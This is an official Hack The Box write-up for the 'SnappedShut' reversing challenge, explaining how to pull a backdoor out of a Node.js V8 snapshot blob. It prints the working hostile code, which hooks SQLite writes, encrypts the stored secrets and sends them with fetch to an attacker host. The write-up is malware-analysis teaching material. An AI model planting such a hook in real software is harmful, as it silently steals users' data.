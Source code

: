 <img src="../../../../../assets/banner.png" style="zoom: 80%;" align=center />

<img src="../../../../../assets/htb.png" style="zoom: 80%;" align='left' /><font size="6">SnappedShut</font>

  29<sup>th</sup> 04 24 / Document No. D24.102.61

  Prepared By: clubby789

  Challenge Author: clubby789

  Difficulty: <font color=green>Easy</font>

  Classification: Official






# Synopsis

SnappedShut is an Easy reversing challenge. Players must extract code embedded inside a Node JS snapshot blob.

## Skills Required
    - Basic JS knowledge
## Skills Learned
    - Reverse engineering V8-snapshot malware

# Solution

We're provided the source code for a Node JS based web server and a file `snapshot.blob`.

```js
const express = require('express');
const bodyParser = require('body-parser');
const sqlite3 = require('sqlite3').verbose();

const app = express();
const port = 3000;
const db = new sqlite3.Database(':memory:');
db.serialize(() => {
    db.run('CREATE TABLE IF NOT EXISTS secrets (id INTEGER PRIMARY KEY, secret TEXT)');
});
app.use(bodyParser.json());

app.post('/secret', (req, res) => {
  const secret = req.body.secret;
  if (!secret) {
    return res.status(400).json({ error: 'Secret parameter is missing' });
  }
  db.run("INSERT INTO secrets (secret) VALUES (?)", [secret], err => {
    if (err) {
        return res.status(500).json({ error: 'Failed to store secret' })
    }
    return res.json({ success: `Stored secret "${secret}"` });
  });
});

app.get('/secret', (req, res) => {
  db.all("SELECT secret FROM secrets", (err, rows) => {
    if (err) {
      return res.status(500).json({ error: 'Failed to retrieve secrets' });
    }
    const secrets = rows.map(row => row.secret);
    return res.json({ secrets });
  });
});

app.listen(port, () => {
  console.log(`Server is listening at http://localhost:${port}`);
});
```

The app creates a simple webserver, which allows users to upload 'secrets' - these are stored in an in-memory database.

`package.json` gives us a hint toward the backdoor mentioned;

```json
{
  "name": "secretsvc",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "author": "",
  "license": "ISC",
  "scripts": {
    "start": "node --snapshot-blob snapshot.blob index.js"
  },
  "dependencies": {
    "body-parser": "^1.20.2",
    "express": "^4.19.2",
    "sqlite3": "^5.1.7"
  }
}
```

The app is started using `--snapshot-blob snapshot.blob`. This is a mechanism implemented by Node JS - it allows applications to pre-initialize some global state, which is deserialized into the V8 cache on launch, potentially saving startup time.

It is a large binary blob, but if we run `strings` on it and scroll through the output, we can spot this unusual snippet of JS source code.

```js
require('v8').startupSnapshot.addDeserializeCallback(() => {
    function hook(secret) {
        const crypto = require('crypto');
        const key = Buffer.from([72,84,66,123,98,52,99,107,100,48,48,114,95,49,110,95,121,48,117,114,95,115,110,52,112,115,104,48,55,33,33,125], 'utf-8');
        const cipher = crypto.createCipheriv('aes-256-cbc', key, Buffer.alloc(16));
        let enc = cipher.update(JSON.stringify(secret), 'utf-8', 'base64');
        enc += cipher.final('base64');
        fetch("http://0l-xmarket.0merch-andise.htb", {
            mode: 'no-cors',
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({"secrets": enc})
        })
        .catch(e => {})
    }
    function make_db_proxy(db) {
        return new Proxy(db, {
            get(obj, prop) {
                if (prop === "run") {
                    const orig_run = obj.run.bind(obj);
                    return (...args) => {
                        if (args.length >= 2) {
                            hook(args[1]);
                        }
                        return orig_run(...args);
                    }
                } else {
                    return obj[prop].bind(obj);
                }
            }
        })
    }
    const Module = require('module');
    Module.prototype.require = new Proxy(Module.prototype.require, {
        apply(target, thisArg, argsList) {
            const result = Reflect.apply(target, thisArg, argsList);
            if (argsList[0] == 'sqlite3') {
              const Database = result.Database;
              result.Database = new Proxy(Database, {
                construct(target, args) {
                    return make_db_proxy(new target(...args));
                },
              });
            }
            return result;
        }
    });
});
```

## Deserialize Callback

Snapshots can call `v8.startupSnapshot.addDeserializeCallback` to add a callback function which will be run on deserializing. In this case, there are several steps
- We proxy `Module.prototype.require` (the Node `require` function)
- If we are requiring `sqlite3`, we create a proxy for the `Database` class
- This proxy hooks the `run` property on any database object, and returns a function which calls `hook()` with `args[1]`
- `db.run()` is invoked with `db.run(sql, [arguments], [callback])`, so we are recording all arguments passed to the database's SQL
- The hook AES-encrypts our secret data and POSTs it to a suspicious website

If we decode the AES key we will receive the flag and solve the challenge.
